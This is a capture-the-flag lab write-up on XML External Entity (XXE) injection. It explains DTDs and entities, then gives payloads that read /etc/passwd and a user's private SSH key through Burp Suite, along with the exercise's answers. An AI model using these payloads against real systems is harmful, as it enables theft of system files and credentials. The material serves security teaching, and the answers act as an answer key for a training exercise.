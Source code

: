 # Task 12\~16



## Extensible Markup Language <a href="#extensible-markup-language" id="extensible-markup-language"></a>

### Full form of XML <a href="#full-form-of-xml" id="full-form-of-xml"></a>

#### Answer <a href="#answer" id="answer"></a>

Extensible Markup Language

### Is it compulsory to have XML prolog in XML documents? <a href="#is-it-compulsory-to-have-xml-prolog-in-xml-documents" id="is-it-compulsory-to-have-xml-prolog-in-xml-documents"></a>

#### Answer <a href="#answer-1" id="answer-1"></a>

no

### Can we validate XML documents against a schema? <a href="#can-we-validate-xml-documents-against-a-schema" id="can-we-validate-xml-documents-against-a-schema"></a>

#### Answer <a href="#answer-2" id="answer-2"></a>

yes

### How can we specify XML version and encoding in XML document? <a href="#how-can-we-specify-xml-version-and-encoding-in-xml-document" id="how-can-we-specify-xml-version-and-encoding-in-xml-document"></a>

#### Answer <a href="#answer-3" id="answer-3"></a>

XML Prolog

## DTD <a href="#dtd" id="dtd"></a>

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named note.dtd with the following content:

```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD. Ex: Below is given an XML document that uses note.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

```
!DOCTYPE note -  Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

NOTE: #PCDATA means parseable character data.
```

### How do you define a new ELEMENT? <a href="#how-do-you-define-a-new-element" id="how-do-you-define-a-new-element"></a>

#### Answer <a href="#answer-4" id="answer-4"></a>

!ELEMENT

### How do you define a ROOT element? <a href="#how-do-you-define-a-root-element" id="how-do-you-define-a-root-element"></a>

#### Answer <a href="#answer-5" id="answer-5"></a>

!DOCTYPE

### How do you define a new ENTITY? <a href="#how-do-you-define-a-new-entity" id="how-do-you-define-a-new-entity"></a>

#### Answer <a href="#answer-6" id="answer-6"></a>

!ENTITY

## XXE Payload <a href="#xxe-payload" id="xxe-payload"></a>

1. The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

1. We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file **/etc/passwd**.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

## XML External Entity - Exploiting <a href="#xml-external-entity---exploiting" id="xml-external-entity---exploiting"></a>

```xml
<!DOCTYPE replace [<!ENTITY name "renan"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### What is the name of the user in /etc/passwd <a href="#what-is-the-name-of-the-user-in-etcpasswd" id="what-is-the-name-of-the-user-in-etcpasswd"></a>

1. Open Burpsuite
2. Turn on intercept
3.  Inject XML attack

    ```xml
    <?xml version="1.0"?>
     <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
     <root>&read;</root>
    ```
4. Send attack to repeater
5. Change **xxe** with a more human readable format

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

#### Answer <a href="#answer-7" id="answer-7"></a>

Found user **falcon**

### Where is falcon's SSH key located? <a href="#where-is-falcons-ssh-key-located" id="where-is-falcons-ssh-key-located"></a>

#### Answer <a href="#answer-8" id="answer-8"></a>

```
/home/falcon/.ssh/id_rsa
```

### What are the first 18 characters for falcon's private key <a href="#what-are-the-first-18-characters-for-falcons-private-key" id="what-are-the-first-18-characters-for-falcons-private-key"></a>

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:////home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

#### Answer <a href="#answer-9" id="answer-9"></a>

```
MIIEogIBAAKCAQEA7b
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>
